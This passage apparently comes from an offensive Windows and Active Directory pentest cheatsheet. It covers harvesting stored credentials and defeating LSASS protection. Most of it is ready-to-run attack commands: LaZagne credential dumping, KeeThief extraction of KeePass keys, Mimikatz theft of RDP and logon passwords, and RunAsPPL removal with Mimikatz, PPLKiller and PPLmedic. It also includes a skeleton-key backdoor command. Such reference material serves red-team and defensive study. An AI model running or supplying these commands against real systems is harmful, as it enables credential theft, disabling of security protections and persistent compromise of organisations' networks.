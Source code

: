 To retrieve maximum creds.

```batch
./lazagne.exe all
```

#### Credentials in third softwares

Many applications present on a computer can store credentials, like KeePass, KeePassXC, mstsc and so on.

The more complete **ThievingFox** approach is presented in the Active Directory - Python edition cheatsheet.

```powershell
#KeePass with KeeThief
Import-Module KeeThief.ps1
Get-KeePassDatabaseKey -Verbose

#RDP creds with Mimikatz
#Client side
Invoke-Mimikatz -Command '"ts::mstsc"'
#Server side
Invoke-Mimikatz -Command '"ts::logonpasswords"'

#Credentials in Veeam database
./SharpVeeamDecryptor.exe
```

#### Bypass RunAsPPL

Check if RunAsPPL is enabled in the registry.

Look at `HKLM\SYSTEM\CurrentControlSet\Control\Lsa`

```batch
mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # misc::skeleton
mimikatz # !-
```

If Mimikatz can't be used, [PPLKiller](https://github.com/RedCursorSecurityConsulting/PPLKiller) is an alternative

```powershell
./PPLKiller.exe /installDriver
./PPLKiller.exe /disableLSAProtection
./PPLKiller.exe /uninstallDriver
```

And more recently, [PPLmedic](https://github.com/itm4n/PPLmedic)

```powershell
./PPLmedic.exe dump <lsass_PID> <C:\path\to\dump.dmp>
```

### Pass the Challenge
